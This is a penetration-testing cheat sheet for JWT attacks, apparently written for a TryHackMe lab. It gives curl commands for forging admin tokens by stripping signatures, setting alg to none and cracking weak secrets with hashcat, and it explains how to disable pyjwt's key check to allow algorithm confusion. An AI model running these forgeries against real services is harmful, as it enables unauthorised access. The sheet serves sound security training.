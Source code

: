 # JSON Web Tokens JWT Penetration Testing

## Tools: Burpsuite, cURL, https://jwt.io/ (JWT Decoder and editor), Cyberchef https://gchq.github.io/CyberChef/ (Encode/Decode values), https://github.com/ticarpi/jwt_tool (Automation tool to check for vulnerable JWT Tokens)

## Attacks:

### 1) Sensitive Information Disclosure

#### Authenticate with a user and grab the JWT token from that user

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 
#### Go to jwt.io to decode the token and check the values inside the claim portion of the token. We may find sensitive information like internal resources, etc.

### 2) Signature is not verified

#### Grab the JWT token

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 

#### Authenticate with the JWT token

    curl -H 'Authorization: Bearer JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=user 

#### Go to jwt.io and try to verify the user WITHOUT the signature by removing the signature part leaving ONLY the dot (.).

#### Try to authenticate with the SIGNATURELESS token again to check if you can verify the user even without the signature.

### Modify any values we may find in the token. Example:

#### Change the admin value from 0 to 1, then verify as admin with the newly modified JWT token.

    curl -H 'Authorization: Bearer MODIFIED_SIGNATURELESS_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin


### 3) Signature algorithm downgrade to NONE


#### Grab the JWT Token
    
    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 

#### Authenticate with the JWT Token

    curl -H 'Authorization: Bearer JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=user 

#### Go to jwt.io to modify the values inside the claim portion of the token: Admin from 0 to 1 for example.

    curl -H 'Authorization: Bearer MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin

#### If the response of the server contains: "Signature verification failed" we can go for the downgrade attack to None algorithm.

#### Go to cyberchef, then take the HEADER part of the JWT token and use the JWT decode recipe to get the plain text of the JWT header.

#### Grab the plain text JWT header, change the Alg to None and encode it with base64.

#### After this, put the base64 encoded header we just made at the BEGINNING of our modified JWT token to replace the previous header with the None algorithm. REMOVE THE EQUAL SIGN FROM THE BASE64 HEADER TO NOT GET ANY COMPLAINTS FROM THE SERVER RESPONSE!

    curl -H 'Authorization: Bearer ALG_NONE_HEADER_MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin 

### 4) Weak Symmetric Secrets

#### Grab JWT Token

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 

#### Save the retrieved JWT in a text file

    nano jwt.txt 

#### Download a wordlist for JWT secrets

    wget https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list 

#### Use hashcat to crack the secret of the JWT token so that we can forge our own JWT token to gain access

    hashcat -m 16500 -a 0 jwt.txt /usr/share/wordlists/jwt.secrets.list 

### Then go to jwt.io and do the following:

### Add the secret we just cracked down to the signature part where it tells us to enter our secret we just discovered.

### Then, modify any values we may find to gain admin access. Example: admin from 0 to 1.

### Then use this newly forged JWT token to authenticate:

    curl -H 'Authorization: Bearer CRACKED_SECRET_MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin 

### 5) Signature Algorithm Confusion

#### Grab the JWT Token with the public key in this example

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 

### Go to jwt.io to make the changes or use the script provided from THM that we are going to use. Script will be located in scripts folder in here.

### Add the public key to the script and make the modifications: admin from 0 to 1 for example.
    
    pip3 install pyjwt (Import the library to interact with JWT tokens using python)

### Before running the script, edit the file /usr/lib/python3/dist-packages/jwt/algorithms.py and comment out the specific code snippet:

    # if is_pem_format(key_bytes) or is_ssh_key(key_bytes):
    #    raise InvalidKeyError(
         #       "The specified key is an asymmetric key or x509 certificate and"
         #       " should not be used as an HMAC secret."
          #  )

#### Run the script to generate our forged JWT token

    python3 signature-confusion-JWT.py 

#### Gain access with our modified JWT token

    curl -H 'Authorization: Bearer MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin 

### 6) JWT Token Lifetimes

#### If a token does not have an 'exp' value set inside its claim portion of the token, this means that the token NEVER EXPIRES!

#### Also, check for the 'exp' value of a JWT if it is too short or long to verify it's lifespan.
